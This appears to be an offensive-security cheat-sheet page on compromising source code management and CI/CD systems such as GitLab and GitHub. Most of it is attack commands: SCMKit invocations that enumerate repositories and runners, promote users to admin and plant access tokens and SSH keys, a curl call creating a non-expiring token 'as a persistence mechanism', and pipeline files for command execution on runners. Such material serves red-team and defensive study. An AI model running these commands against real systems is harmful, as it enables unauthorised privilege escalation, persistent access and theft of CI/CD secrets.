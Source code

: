 # Source Code Management & CI/CD Compromise

> 

## Summary

* [Tools](#tools)
* [Enumerate repositories files and secrets](#enumerate-repositories-files-and-secrets)
* [Personal Access Token](#personal-access-token)
* [Gitlab CI/Github Actions](#gitlab-cigithub-actions)
* [References](#references)


## Tools

* [synacktiv/nord-stream](https://github.com/synacktiv/nord-stream) - List the secrets stored inside CI/CD environments and extract them by deploying malicious pipelines
* [xforcered/SCMKit](https://github.com/xforcered/SCMKit) - Source Code Management Attack Toolkit


## Enumerate repositories files and secrets

Using [SCMKit - Source Code Management Attack Toolkit](https://github.com/xforcered/SCMKit)

* Discover repositories being used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m listrepo -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listrepo -c apiKey -u https://gitlab.something.local
    ```
* Search for repositories by repository name in a particular SCM system
    ```ps1
    SCMKit.exe -s github -m searchrepo -c userName:password -u https://github.something.local -o "some search term"
    SCMKit.exe -s gitlab -m searchrepo -c apikey -u https://gitlab.something.local -o "some search term"
    ```
* Search for code containing a given keyword in a particular SCM system
    ```ps1
    SCMKit.exe -s github -m searchcode -c userName:password -u https://github.something.local -o "some search term"
    SCMKit.exe -s github -m searchcode -c apikey -u https://github.something.local -o "some search term"
    ```
* Search for files in repositories containing a given keyword in the file name in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m searchfile -c userName:password -u https://gitlab.something.local -o "some search term"
    SCMKit.exe -s gitlab -m searchfile -c apikey -u https://gitlab.something.local -o "some search term"
    ```
* List snippets owned by the current user in GitLab
    ```ps1
    SCMKit.exe -s gitlab -m listsnippet -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listsnippet -c apikey -u https://gitlab.something.local
    ```
* List all GitLab runners available to the current user in GitLab
    ```ps1
    SCMKit.exe -s gitlab -m listrunner -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listrunner -c apikey -u https://gitlab.something.local
    ```
* Get the assigned privileges to an access token being used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m privs -c apiKey -u https://gitlab.something.local
    ```
* Promote a normal user to an administrative role in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m addadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m addadmin -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removeadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    ```
* Create/List/Delete an access token to be used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m createpat -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m createpat -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removepat -c userName:password -u https://gitlab.something.local -o patID
    SCMKit.exe -s gitlab -m listpat -c userName:password -u https://gitlab.something.local -o targetUser
    SCMKit.exe -s gitlab -m listpat -c apikey -u https://gitlab.something.local -o targetUser
    ```
* Create/List an SSH key to be used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m createsshkey -c userName:password -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m createsshkey -c apiToken -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m listsshkey -c userName:password -u https://github.something.local
    SCMKit.exe -s gitlab -m listsshkey -c apiToken -u https://github.something.local
    SCMKit.exe -s gitlab -m removesshkey -c userName:password -u https://gitlab.something.local -o sshKeyID
    SCMKit.exe -s gitlab -m removesshkey -c apiToken -u https://gitlab.something.local -o sshKeyID
    ```

## Personal Access Token

Create a PAT (Personal Access Token) as a persistence mechanism for the Gitlab instance.

```ps1
curl -k --request POST --header "PRIVATE-TOKEN: apiToken" --data "name=user-persistence-token" --data "expires_at=" --data "scopes[]=api" --data "scopes[]=read_repository" --data "scopes[]=write_repository" "https://gitlabHost/api/v4/users/UserIDNumber/personal_access_tokens"
```

## Gitlab CI/Github Actions

* Gitlab-CI "Command Execution" example: `.gitlab-ci.yml`
    ```yaml
    stages:
        - test

    test:
        stage: test
        script:
            - |
                whoami
        parallel:
            matrix:
                - RUNNER: VM1
                - RUNNER: VM2
                - RUNNER: VM3
        tags:
            - ${RUNNER}
    ```
* Github Action "Command Execution" example: `.github/workflows/example.yml`
    ```yml
    name: example
    on:
      workflow_dispatch:
      push:
        branches: [ main ]
      pull_request:
        branches: [ main ]

    jobs:
      build:
        runs-on: windows-2019

        steps:
          - name: Execute
            run: |
              whoami
    ```
    
## References

* [Controlling the Source: Abusing Source Code Management Systems - Brett Hawkins - August 9, 2022](https://securityintelligence.com/posts/abusing-source-code-management-systems/)
* [CI/CD SECRETS EXTRACTION, TIPS AND TRICKS - Hugo Vincent, Théo Louis-Tisserand - 01/03/2023](https://www.synacktiv.com/publications/cicd-secrets-extraction-tips-and-tricks.html)